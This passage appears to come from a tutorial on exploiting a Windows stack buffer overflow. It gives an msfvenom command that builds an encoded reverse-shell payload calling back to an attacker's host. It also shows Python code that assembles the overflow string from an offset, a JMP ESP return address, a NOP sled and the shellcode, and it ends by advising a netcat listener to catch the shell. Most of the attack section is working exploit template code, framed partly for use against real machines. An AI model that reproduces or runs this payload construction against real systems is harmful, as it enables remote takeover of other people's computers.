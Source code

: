 ### Attack

Now that you've got all the information required to execute code on the target machine. This can be done using the tools `msfvenom` and `shikata_ga_nai`.

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp \
  LHOST=<HOST> LPORT=<PORT> \
  -e x86/shikata_ga_nai \
  -f python -b '<bad-chars>'
```

Once you have the payload, add it back into your python code. It's important that you space the payload out with some NOP characters (`\x90`) so that your program has space to execute.

```python
malicous_payload = "<msfvenom payload>"
return_address = "<JMP ESP address>"
offset = "<EIP offset>"
overflow_length = "<amount of characters to oveflow>"

payload = "A" * offset + return_address + \
  '\x90' * 16 + malicous_payload + \
  "C" * (overflow_length - \
    len(malicous_payload) - \
    offset - len(return_address) - 16)
```

### Take control

Now that you've got your payload ready, it's just a matter of setting up a `nc` listener and performing the exploit. It's important that you test the payload before attacking a real machine, because you only get one shot. It's also important that you don't forget to make the return address the right one for the network you're on.
